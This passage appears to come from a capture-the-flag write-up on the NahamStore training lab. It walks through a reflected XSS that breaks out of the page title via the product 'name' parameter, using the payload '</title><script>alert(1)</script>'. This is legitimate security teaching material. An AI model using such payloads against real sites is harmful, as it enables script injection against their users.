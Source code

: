![6xss2-3](imgs/6xss2-3.png)


XSS 3: escaping HTML tag title
- Visit `http://nahamstore.thm` and click the image to get the following:
	```
	http://nahamstore.thm/product?id=1&name=Hoodie+%2B+Tee
	```
- Change the parameter `name` to a new name, we can see that the title is changed accordingly!
	```
	http://nahamstore.thm/product?id=1&name=NEW_N
	```
![6xss3-1](imgs/6xss3-1.png)

- `view-source:http://nahamstore.thm/product?id=1&name=NEW_N`
- Update the payload to inject XSS:
	```
	http://nahamstore.thm/product?id=1&name=</title><script>alert(1)</script>
	```